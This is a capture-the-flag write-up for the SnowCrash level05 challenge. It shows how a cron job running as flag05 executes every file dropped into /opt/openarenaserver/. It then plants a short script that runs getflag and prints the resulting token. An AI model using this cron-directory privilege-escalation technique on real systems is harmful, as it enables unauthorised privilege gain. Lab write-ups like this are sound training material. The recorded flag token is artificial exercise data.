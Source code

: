 We received an email as level05 at login

> level05@SnowCrash:~$ cat /var/mail/level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

It is a crontab configuration telling that the script openarenaserver is ran every minute

List all file owned by flag05

> level05@SnowCrash:~$ find / -user flag05 2>/dev/null
> /usr/sbin/openarenaserver
> /rofs/usr/sbin/openarenaserver
> level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done

It is a script that execute every file in `/opt/openarenaserver/` and delete them
It is ran every minute

We just need to add a script in there to be executed by the flag05 user

```
#!/bin/bash

getflag > /tmp/flag
```
`chmod +x <your file>`
place it in `/opt/openarenaserver/` and wait the script to be executed

> Check flag.Here is your token : viuaaale9huek52boumoomioc
